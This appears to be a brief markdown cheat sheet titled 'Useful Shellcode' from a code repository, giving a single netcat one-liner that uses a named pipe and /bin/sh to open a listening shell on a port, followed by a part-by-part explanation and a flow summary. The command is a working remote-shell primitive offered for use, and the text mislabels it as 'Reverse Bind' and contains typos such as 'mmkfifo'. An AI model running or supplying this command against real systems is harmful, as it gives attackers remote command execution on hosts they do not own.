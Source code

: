 # Useful Shellcode

## Netcat
* Linux Bash:
    1. Reverse Bind: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
        * __mmkfifo /tmp/f;__ : Creates a named pipe.
        * __nc -lvnp \<PORT\>__ : Starts netcat listener.
        * __< /tmp/f__ : Connects litener to named pipe.
        * __| /bin/sh >/tmp/f__: Outputs commands from listener to __sh__.
        * __2>&1__: Redirects the  standard error stream (file descriptor 2) to the same location as the standard output (file descriptor 1).
        * __rm /tmp/f__: Deletes named pipe after its use.
            >How It All Works (Summary)<br> The FIFO file is created to act as a bidirectional channel while Netcat is started in bind mode, listening on a port for incoming connections. Once a remote user connects: Netcat passes their input into the FIFO. The shell reads the command from the FIFO, executes it, and writes the output/error back into the FIFO. Netcat reads the shell's output from the FIFO and sends it back to the client. When the session ends, the FIFO file is removed. This forms a looped communication channel:<br>[Remote Client] ⇄ [Netcat ⇄ FIFO ⇄ /bin/sh] ⇄ [Remote Client]

       